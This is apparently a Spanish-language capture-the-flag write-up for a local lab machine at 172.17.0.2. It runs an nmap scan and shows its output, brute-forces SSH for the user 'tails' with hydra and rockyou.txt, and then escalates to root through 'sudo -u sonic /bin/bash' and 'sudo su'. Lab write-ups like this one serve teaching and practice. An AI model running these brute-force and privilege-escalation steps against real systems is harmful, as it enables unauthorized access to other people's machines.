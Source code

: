 ## Captura de servicios y puertos.
```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn -sC 172.17.0.2 -oG allPorts
```
```plaintext
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn -sC 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 34:0d:04:25:20:b6:e5:fc:c9:0d:cb:c9:6c:ef:bb:a0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNt2acaF9CKWqvibDqz36bJdqRXhBhBqCOAtvExAJy9Q2FullFAzNST6vJm0xFrlmpgS6fZb5+l3aTYFC18zyNU=
|   256 05:56:e3:50:e8:f4:35:96:fe:6b:94:c9:da:e9:47:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH2vWYkHZteiOgnLadFoN6gkctYlQYhtwGFeA7lm1OKE
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

## Práctica

Observamos el puerto 80 está corriendo una pagina web, viendo que hay una palabra **tails**. Sabemos que por el puerto 22 se permiten conexiones por ssh, es conveniente intentar hacer fuerza bruta por ssh con la palabra encontrada.
```bash
hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 
```

Ya hemos ganado acceso como usuario, ahora debemos escalar privilegios, sudo -l

Descubrimos que para ser usuario sonic debemos de ejecutar cualquier binario, con lo que nos bastará con poner el siguiente comando sudo -u sonic /bin/bash

Finalmente al hacer nuevamente sudo -l obtenemos todo tipo de acceso y para escalar privilegios ingresamos **sudo su**. 


